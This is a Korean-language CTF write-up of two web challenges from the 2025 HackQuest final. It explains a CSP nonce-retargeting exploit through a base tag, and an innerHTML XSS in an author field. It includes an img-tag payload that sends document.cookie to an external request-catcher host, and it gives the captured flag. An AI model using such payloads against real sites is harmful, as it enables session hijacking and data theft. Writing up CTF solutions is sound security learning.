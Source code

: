 ```yaml
---
title: 2025 HackQuest Final Write-Up
published: 2025-08-26
description: "4등"
tags: [CTF_Writeup, hackquest, kaist]
category: CTF
draft: false
---
```


4등으로 마무리 했다 goldleo님이 3등으로 동점이지만 워낙 웹 고수셔서 크게 아쉽진 않다..  
더 어렵게 나왔으면 격차는 더 벌어졌을거다  
웹은 꽤 쉬웠고 올솔했다. 하나는 웹 같지가 않아서 2개만 write up 써보겠다

## Simple Gallery
아이디어 생각해내기가 좀 까다로웠다

![](./img3.png)

admin post에 플래그가 포함된 사진이 업로드 되어있다. 물론 어드민만 읽을 수 있다.

![](./img2.png)

로그인해서 글을 써보면 XSS 터지는 포인트가 크게 두 곳이 보이는데
내용이랑 맨 위 알림창이다

`http://158.247.202.119/view/177?message=(페이로드)`

```js
app.use((req, res, next)=>{
    nonce = crypto.randomBytes(32).toString('hex');
    res.setHeader('Cache-Control', 'no-cache, no-store, must-revalidate');
    res.setHeader('X-Frame-Options', 'deny');
    res.setHeader('Content-Security-Policy', 'script-src \'nonce-' + nonce + '\'');
    next();
})
```

그러나 script-src가 걸려있어서 admin 쿠키를 탈취해 해결하긴 어려워보인다

CSP에 base-uri 관련 설정이 들어있지 않다는 점을 이용해 base 태그를 사용한 nonce retargeting이 가능하다

```js
const flagImageName = crypto.randomBytes(32).toString('hex') + '.png';
const flagImagePath = path.join('uploads', flagImageName);

fs.copyFileSync('flag.png', flagImagePath);
```

위 코드에서 알 수 있듯이 랜덤화된 플래그 파일명만 알면 어드민이 아니어도 접근할 수 있으므로 아래와 같이 시나리오를 짰다

1. 게시글 본문 XSS로 meta tag open redirect
2. admin 게시글로 이동 후 message query에서 nonce retargeting
3. admin 게시글의 플래그 이미지 로드 시 retargeting 된 웹훅으로 요청 `https://webhook/{flag파일명}`

![](./img4.png)
![](./img5.png)

해당 경로로 접속하면 플래그를 얻을 수 있다

## Simple Board

코드양이 좀 되어서 겁먹었는데 진짜 별 거 없었다

```js
app.get('/post/:id', requireAuth, async (req, res) => {
  const id = req.params.id;
  const post = postDB.get(id);
  if (!post) return res.status(404).send('Not Found');
  if (post.author !== req.session.user.username && !(req.session.user && req.session.user.role === 'admin')) {
    return res.status(403).send('Forbidden');
  }
  const { uneval } = await import('devalue');
  const postSerialized = filter(uneval(post));
  const meSerialized = filter(uneval({ username: req.session.user.username, role: req.session.user.role }));

  res.render('post', { user: getUser(req), postSerialized, meSerialized });
});
```

devalue라는 모듈을 사용해서 이상한 문자열들을 다 필터링 해버린다.  
우회하려고 삽질 좀 했는데 취약점은 상상도 못한곳에서 터진다.

```js
if (postRoot && window.__POST) {
  const p = window.__POST;
  const h1 = document.createElement('h1');
  h1.textContent = p.title;

  const meta = document.createElement('div');
  meta.className = 'post-meta';
  const who = document.createElement('span');
  who.innerHTML = `작성자: <b>${p.author}</b>`;
  const when = document.createElement('span');
  when.textContent = `작성시간: ${fmtDate(p.createdAt)}`;
  meta.appendChild(who);
  meta.appendChild(when);

  const pre = document.createElement('pre');
  pre.className = 'post-content';
  highlightText(pre, p.content, p.highlight);

  const tagsWrap = setToChips(p.tags);
  const details = mapToList(p.meta);

  postRoot.appendChild(h1);
  postRoot.appendChild(meta);
  postRoot.appendChild(pre);
  postRoot.appendChild(tagsWrap);
  postRoot.appendChild(details);

  const delForm = document.getElementById('delete-form');
  if (delForm) delForm.action = `/delete/${p.id}`;
}
```

작성자를 넣을 때는 그대로 innerHTML 하게되어서 아이디로 xss가 발생한다

그 다음은 간단한 XSS다. 페이로드 들어간거보면 문자 몇 개는 제거되니 주의하자. 왜 그런지는 모르겠다
```html
<img src=x onload=fetch("https://tkpfwcr.request.dreamhack.games?q="+document.cookie) onerror=fetch("https://tkpfwcr.request.dreamhack.games?q="+document.cookie) />
```

어드민 봇한테 주고 플래그 따면 끝

`http://158.247.202.119:3000/flag`

`flag: hackquest2025{2522482579226696ac9def67ab04c98c}`